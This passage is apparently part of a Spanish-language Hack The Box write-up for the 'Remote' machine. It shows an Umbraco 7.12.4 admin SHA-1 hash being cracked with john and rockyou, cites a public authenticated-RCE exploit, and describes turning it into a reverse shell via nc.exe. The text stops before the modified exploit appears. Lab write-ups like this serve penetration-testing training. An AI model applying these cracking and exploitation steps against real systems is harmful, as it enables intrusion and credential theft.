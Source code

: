 De la anterior imagen, podemos ver que hay un usuario llamado `admin` y que el hash de este usuario se encuentra en el formato SHA-1 y el valor es `b8be16afba8c314ad33d812f22a04991b90e2aaa`.

Continuando la enumeración, encontramos que en el archivo `Web.config` está la versión que utiliza este CMS y es la versión 7.12.4. Esta versión es vulnerable a ejecución de código remoto en usuarios autenticados.

```xml
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote/NFS]
└──╼ #cat Web.config 
	<appSettings>
		<!--
      Umbraco web.config configuration documentation can be found here:
      https://our.umbraco.com/documentation/using-umbraco/config-files/#webconfig
      -->
		<add key="umbracoConfigurationStatus" value="7.12.4" />
		<add key="umbracoPath" value="~/umbraco" />
		<add key="umbracoHideTopLevelNodeFromPath" value="true" />
		<add key="umbracoUseDirectoryUrls" value="true" />
		<add key="umbracoTimeOutInMinutes" value="20" />
		<add key="umbracoDefaultUILanguage" value="en-US" />
		<add key="umbracoUseSSL" value="false" />

```




## Explotación

Primero, procedemos a crackear el hash del usuario `admin` usando `john`

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote]
└──╼ #echo "b8be16afba8c314ad33d812f22a04991b90e2aaa" > hash-admin
┌─[✗]─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote]
└──╼ #john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 hash-admin 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (?)
1g 0:00:00:04 DONE (2020-06-19 16:31) 0.2173g/s 2135Kp/s 2135Kc/s 2135KC/s baconandchipies1..baconandcabbage
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

La contraseña encontrada es `baconandcheese`. Ahora, como mencionamos anteriormente, la versión de Umbraco que está corriendo esta máquina es la 7.12.4 y revisando en [Exploit-db](https://www.exploit-db.com/exploits/46153) hay un exploit que aprovecha la vulnerabilidad de ejecución de código remoto en usuarios autenticados.

Debemos realizar unos cambios al exploit anterior ya que es una prueba de concepto, donde debemos cambiar los valores del `login`, la `password` y el `host`. Además debemos cambiar el payload para que en vez de abrir la calculadora, tengamos una shell reversa en donde descargamos el archivo `nc.exe` en la carpeta `/tmp` y posteriormente ejecutamos el comando `nc.exe` con PowerShell para tener la shell reversa. El exploit quedaría de la siguiente manera:
